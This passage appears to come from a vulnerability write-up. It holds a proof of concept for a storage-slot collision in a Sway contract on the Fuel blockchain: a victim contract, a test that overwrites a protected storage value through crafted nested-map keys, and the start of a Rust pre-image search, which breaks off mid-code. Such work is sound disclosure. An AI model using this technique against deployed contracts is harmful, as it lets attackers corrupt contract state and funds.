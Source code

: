 ```
        0x04fff4a13b3542d316d2b1cfba8348f8c17ac59a352d64e7a329cd9e46a6c0ce
        : u64 = 0,

    //to use more powerful mining hardware we should change the second
    //key type to u256.
    myDummyMap : StorageMap<u64, StorageMap<u64, u64>> = StorageMap{},
}

abi VictimContract {
    #[storage(read, write)]
    fn setMap(k1: u64, k2: u64, val: u64);

    #[storage(read, write)]
    fn get_important_data() -> u64;
}

impl VictimContract for Contract {
    #[storage(read, write)]
    fn setMap(k1: u64, k2: u64, val: u64) {
        storage.myDummyMap.get(k1).insert(k2, val);
    }

    #[storage(read, write)]
    fn get_important_data() -> u64 {
        storage.importantData.read()
    }
   
}


#[test]
fn test_storage() {
    let target = abi(VictimContract, CONTRACT_ID);

    let key2 = 0x73746F726167652Eu64; // "storage."
    let key1 = 3377787503696190;
    let val = 123;
    target.setMap(key1, key2, val);

    let x = target.get_important_data();

    assert(x == val);
}

```

### Rust code to find the pre-image

```
use fuels::{prelude::*, types::ContractId};
use fuels::tx::StorageSlot;
use fuels::types::Bytes32;
use fuels::types::U256;
use fuels::crypto::Hasher;
use std::io::Write;
use std::thread;

#[tokio::test]
async fn generate_pre_image() {

    let suffix : [u8;32] = Hasher::hash("storage.myDummyMap").into();

    //there are more invalid chars but we can remove the rest manually as
```